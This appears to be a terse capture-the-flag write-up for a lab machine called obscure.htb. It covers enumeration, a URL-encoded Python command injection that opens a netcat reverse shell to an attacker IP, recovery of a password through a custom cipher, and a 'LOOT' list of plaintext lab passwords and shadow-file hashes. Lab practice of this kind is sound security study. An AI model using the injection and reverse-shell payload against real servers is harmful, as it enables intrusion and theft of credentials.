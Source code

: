 # Enumeration
- Proxy Server running BadHTTPServer on 8080
- Web server running on 80 doesn't respond to my ip
- 9000 cslistener running doesn't respond to my ip
- obscure.htb
- secure@obscure.htb
# Exploited
- Initial foothold
`http://obscure.htb:8080/%27%3Bos.system%28%27rm%20%2Ftmp%2Fnaiame%3B%20mkfifo%20%2Ftmp%2Fnaiame%3B%20cat%20%2Ftmp%2Fnaiame%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.36%201337%20%3E%2Ftmp%2Fnaiame%27%29%3Babc%3D%27`
- User pawn
`
python3 SuperSecureCrypt.py -i out.txt -o /tmp/naiame.file -k "$(cat check.txt)"
the out.txt is the cipher of check.txt and from the source code -d option will provide key writing to file and out file contains the key
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichai
from this key is "alexandrovich"
now extracting the user password is the passwordreminder.txt file
SecThruObsFTW is robert password

`
# LOOT
robert:SecThruObsFTW
root:mercedes

SHADOW FILE:

root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
